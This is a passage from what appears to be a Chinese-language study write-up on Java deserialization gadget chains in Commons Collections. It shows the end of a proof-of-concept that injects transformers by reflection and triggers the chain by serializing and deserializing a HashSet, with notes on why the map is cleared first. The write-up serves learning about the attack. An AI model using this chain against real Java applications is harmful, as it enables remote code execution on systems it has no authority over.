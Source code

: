 ```java
        lazyMap.clear();  
    
        Field iTransformers = ChainedTransformer.class.getDeclaredField(("iTransformers"));
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain,transformers);

        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("serialize.ser"));
        out.writeObject(hashSet);
        ObjectInputStream in = new ObjectInputStream(new FileInputStream("serialize.ser"));
        in.readObject();
    }
```

第34行调用一次`clear()`是因为`hashSet.add`会将`key/value` `put`到LazyMap中，若不`clear()`会导致反序列化时LazyMap包含该`key`，从而进不到if语句内，无法触发`transform`

![image-20220320230828331](java反序列化之CC链1-7学习/image-20220320230828331.png)

这条链在jdk高版本也可以触发
